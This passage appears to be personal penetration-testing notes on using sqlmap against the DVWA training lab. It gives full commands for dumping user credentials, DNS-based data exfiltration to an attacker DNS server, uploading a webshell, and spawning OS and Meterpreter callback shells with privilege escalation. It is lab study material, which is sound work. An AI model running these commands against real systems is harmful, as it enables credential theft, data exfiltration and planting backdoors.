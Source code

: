 ```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent -D dvwa -T users -C user,password --dump
```

### 3.3 - DNS Exfiltration (Out-of-band SQL Injection)

TODO: Demonstrate DNS exfiltration via sqlmap

```
$ sudo sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --dns-domain=<dns_server_IP> -D dvwa
```

## 04 - Webshell

### 4.1 - Upload a specific Webshell

Refer to this [[Pentesting Phases/Initial Access/Callback Shells/Webshells|link]] to generate interactive weevely webshells and click [[Weevely|here]] for post exploitation section.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --technique=U --file-write="/path/to/webshell.php" --file-dest="/var/www/html/dvwa/shell.php"
```

### 4.2 - Spawn an Interactive Webshell

TODO: Provide **\[INFO\]** logs and a screenshot to demonstrate a different between a file web stager (the uploader file) and a backdoor (an interactive shell)

Great thing about SQLMap that not only it uploads an interactive **web backdoor (the webshell)** it also comes with the **web file stager (the uploader)**.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --os-shell --web-root="/var/www/html/dvwa/"
```

### 4.3 - Spawn a Meterpreter Shell

- Start a shell handler listener in Metasploit to retrieve a callback meterpreter session.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --os-pwn --web-root="/var/www/html/dvwa/"
```

Note: when using the `--priv-esc` flag this is for targeting Windows operating systems to automate using the `getsystem` function for impersonation.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --random-agent --os-pwn --web-root="/var/www/html/dvwa/" --priv-esc
```
### 4.4 - Execute OS Command
